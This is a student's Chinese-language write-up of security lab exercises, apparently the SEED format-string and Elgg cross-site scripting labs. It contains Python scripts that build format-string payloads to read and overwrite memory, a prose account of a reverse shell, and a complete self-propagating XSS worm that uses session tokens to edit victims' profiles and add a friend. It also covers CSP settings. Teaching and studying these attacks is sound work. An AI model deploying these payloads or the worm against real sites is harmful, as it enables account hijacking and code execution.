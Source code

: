 ## PartA

### Task 1

msg中用多个%s即可使程序无法正常返回而崩溃

### Task 2

#### A

通过buffer address和Frame pointer的值可以计算出大概的差值。构造80个%d的输入，发现在末尾打印出多个1680172069，恰好为"%d%d"以int方式解释的值。计算得知当输出63个int后，栈顶指向buf

```python
with open('cute.txt', 'w') as f:
	f.write("%d"*64)
```

#### B

利用A中结果，构造字符串“%d”*127+"%s"，打印到%s时栈顶恰好指向%s后一位，将其值设为目标地址即可

```python
with open('cute.txt', 'wb') as f:
	content = bytearray(0 for i in range(260))
	content[0:254] = ("%d"*127).encode()
	content[254:256] = "%s".encode()
	content[256:260] = (0x080b4008).to_bytes(4,byteorder='little')
	f.write(content)
```

#### Task 3

由Task 2可知，栈顶与msg有63个int的距离，利用%hn合理计算好32个%d后还需要的宽度，即可分两次将目标变量修改成新的值，变量地址填在msg的头部

![image-20211123210226973](https://i.loli.net/2021/11/23/iWKjfuIzdcUH8Ls.png)

#### Task 4

②处地址为myprintf栈帧底+4

③处地址为buf地址

由前面的task可知需要63个%x

类似task3，shellcode可以放在固定位置(可由③推算)，将该地址写入②即可

![image-20211123210145183](https://i.loli.net/2021/11/23/1N9KOCzY8vLF2ZX.png)

#### Task 5

该任务可利用format string的$选项将栈指针任意移动，测试知栈顶距离字符串指针有33*8个Byte，构造字符串如下

| %40$xxxxxd |  %41$hn   | %42$xxxxxd |  %43$hn   | %44$xxxxxd |  %45$hn   |
| :--------: | :-------: | :--------: | :-------: | :--------: | :-------: |
|  **占位**  | **地址**1 |  **占位**  | **地址2** |  **占位**  | **地址3** |

![image-20211124155030916](https://i.loli.net/2021/11/24/rJLn6wAyO5lZfej.png)

#### Task 6

在终端上先开启端口进行监听，利用ifconfig得知ip地址为10.0.2.15，修改对应shellcode即可

![image-20211124160702790](https://i.loli.net/2021/11/24/7qkGsgDCTpyxMJv.png)

![image-20211130104907688](https://i.loli.net/2021/11/30/j1oG2wqsvKa54yW.png)

## Part B

### Task 1/2

在About me中直接编辑html可以避免文本编辑器替换<和>

### Task 3

![image-20211125130134151](https://i.loli.net/2021/11/25/dzn5fHecamUQE9V.png)

### Task 4

尝试发出请求后，得知添加samy为好友的url格式

```javascript
var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token;
```

##### Question1

token和ts用于获取当前页面变量，发出合法请求

##### Question 2

不能，因为<>均被替换，无法形成有效标签

### Task 5

参考合法请求可知，content中需要包含name、guid、ts、token以及description，url为http://www.seed-server.com/action/profile/edit，修改代码对应部分即可使看到该代码的用户profile被修改。

①作用是使samy本人的profile不受修改。

### Task 6

将之前的两个task内容合并，description的内容为wormcode本身，即可使所有执行该代码用户的profile被修改，同时添加samy为好友

```html
<script id="worm">
    window.onload = function(){
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
    var jsCode = document.getElementById("worm").innerHTML; 
    var tailTag = "</" + "script>"; 
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 
    
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var content=token + ts + name + guid + "&description=" + wormCode;
    var samyGuid=59; 
    var editurl="http://www.seed-server.com/action/profile/edit";
    var followurl="http://www.seed-server.com/action/friends/add?friend=59"+ ts + token;
    if(elgg.session.user.guid!=samyGuid)
    {
    //Create and send Ajax request to modify profile
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST", editurl, true);
    Ajax.setRequestHeader("Content-Type",
    "application/x-www-form-urlencoded");
    Ajax.send(content);
    
    Ajax=new XMLHttpRequest();
    Ajax.open('GET', followurl, true);
    Ajax.send();
    }
    }
</script>
```

### Task 7

在.conf文件中编辑

```
script-src 'self' *.example70.com *.example60.com
```

即可允许来自www.example60.com的js脚本

在.php文件中编辑

```
"script-src 'self' 'nonce-111-111-111' *.example70.com 'nonce-222-222-222' *.example60.com *.example.70.com"
```



![image-20211126153620357](https://i.loli.net/2021/11/26/3lpHGZMxvDRSebN.png)